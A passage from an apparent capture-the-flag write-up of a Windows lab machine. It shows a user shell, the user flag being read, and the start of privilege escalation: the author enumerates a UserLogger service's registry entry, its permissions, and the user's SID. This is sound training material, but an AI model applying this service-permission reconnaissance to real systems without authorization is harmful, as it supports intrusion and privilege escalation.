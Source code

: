 ### Shell as hacker

In either case, I have a shell as hacker, and I can grab `user.txt`:

```

C:\Users\hacker\Desktop>type user.txt
922449f8...

```

## Privesc to SYSTEM

### UserLogger Service

#### Enumeration

In looking around the system, I noticed a service running that I didn’t recognize, UserLogger:

```

PS C:\windows\temp> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger
reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    c:\windows\system32\UserLogger.exe
    ObjectName    REG_SZ    LocalSystem
    DisplayName    REG_SZ    User Logger
    Description    REG_SZ    This service is responsible for logging user activity

```

To look at the permissions on the service, I can use `sc`:

```

C:\Users\hacker\Desktop>sc sdshow userlogger

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCLCSWRPWPDTLORC;;;S-1-5-21-2115913093-551423064-1540603852-1003)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLORC;;;BU)(A;;CCLCSWRPWPLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)

```

The output is a bit cryptic. First, I’ll figure out what hacker’s SID is:

```

C:\Users\hacker\Desktop>wmic useraccount where name='hacker' get sid
SID
S-1-5-21-2115913093-551423064-1540603852-1003

```
